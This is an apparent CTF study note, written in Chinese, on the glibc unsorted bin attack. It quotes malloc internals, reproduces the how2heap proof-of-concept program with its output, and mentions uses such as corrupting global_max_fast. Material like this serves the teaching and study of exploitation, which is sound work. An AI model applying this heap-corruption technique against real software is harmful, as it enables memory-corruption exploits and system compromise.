# Unsorted Bin Attack

### 0x0 前置补偿

`bins`：如图，正常情况下，每一个`bin[idx]`都有是一个`malloc_chunk`指针，`fd`指向最新插入的`chunk`，`bk`指针指向第一个被插入的`chunk`，每个`chunk`之间用`fk`和`bk`链接，如果`bin[idx]`为空，其`fd`和`bk`指向自己。

![](./bins.jpg)

### 0x1 介绍

 `_int_malloc` 有这么一段代码，当将一个 unsorted bin 取出的时候，会将 `bck->fd` 的位置写入`bin[idx]`即`unsorted bin`（位于`malloc_state`）的位置。

```C
/* remove from unsorted list */
if (__glibc_unlikely (bck->fd != victim))
  malloc_printerr ("malloc(): corrupted unsorted chunks 3");
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

#### 0x10 利用前提

可以控制 Unsorted Bin Chunk 的 bk 指针。(比如UAF漏洞等方法)

#### 0x11 流程

> 根据[how2heap-unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c)来描述

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
		    "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
		    "instructions.\n");
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(0x410);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```



结果：

```c
This technique only works with buffers not going into tcache, either because the tcache-option for glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build instructions.
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

//Let's first look at the target we want to rewrite on stack:
//0x7fffffffe4c8: 0

//Now, we allocate first normal chunk on the heap at: 0x555555757010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7ffff7dd1b78
Now emulating a vulnerability that can overwrite the victim->bk pointer
//And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7fffffffe4b8

//Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
//0x7fffffffe4c8: 0x7ffff7dd1b78
```



来自[CTF-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unsorted_bin_attack-zh/#_4)的图：

![](./unsorted_bin_attack_order.png)

1. 首先：`unsorted bin` 的 `fd` 和 `bk` 均指向 `unsorted bin` 本身。

2. 随后`free(p)`，`chunk`被放入`Unsorted bin`。

3. 修改`p[1]`为即`chunk->bk`指针为`&stack_var - 0x10`。

4. 最后再次把这个`chunk`申请走。

   ```c
   while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
       bck = victim->bk;
       if (__builtin_expect(chunksize_nomask(victim) <= 2 * SIZE_SZ, 0) ||
           __builtin_expect(chunksize_nomask(victim) > av->system_mem, 0))
           malloc_printerr(check_action, "malloc(): memory corruption",
                           chunk2mem(victim), av);
       size = chunksize(victim);
   
       /*
          If a small request, try to use last remainder if it is the
          only chunk in unsorted bin.  This helps promote locality for
          runs of consecutive small requests. This is the only
          exception to best-fit, and applies only when there is
          no exact fit for a small chunk.
        */
       /* bck被修改为&stack_var - 0x10，并不符合这里的要求*/
       if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
           victim == av->last_remainder &&
           (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
           ....
       }
   
       /* remove from unsorted list */
       unsorted_chunks(av)->bk = bck;
       bck->fd= unsorted_chunks(av);			//这里 stack_var被修改为一个很大的数
   ```

   

### 0x2 作用

我还没有经验，摘自CTF-wiki

- 我们通过修改循环的次数来使得程序可以执行多次循环。
- 我们可以修改 heap 中的 global_max_fast 来使得更大的 chunk 可以被视为 fast bin，这样我们就可以去执行一些 fast bin attack 了。